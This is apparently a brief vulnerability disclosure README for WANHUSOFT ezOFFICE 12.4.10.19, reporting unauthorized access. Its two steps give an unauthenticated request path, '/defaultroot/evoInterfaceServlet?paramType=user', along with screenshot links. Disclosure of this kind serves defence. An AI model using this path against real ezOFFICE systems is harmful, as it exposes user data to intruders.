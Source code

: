 # WANHUSOFT
WANHUSOFT ezOFFICE version:12.4.10.19 is susceptible to unauthorized access.

1.a url.
![QQ截图20230918215723](https://github.com/1234556789lj/WANHUSOFT/assets/118456270/4d3dfe14-c6fe-4037-9e3e-d434e8693595)
2.visit path "/defaultroot/evoInterfaceServlet?paramType=user"
![222](https://github.com/1234556789lj/WANHUSOFT/assets/118456270/b4a23585-aa53-4dae-b03c-9c5c0c8f4159)


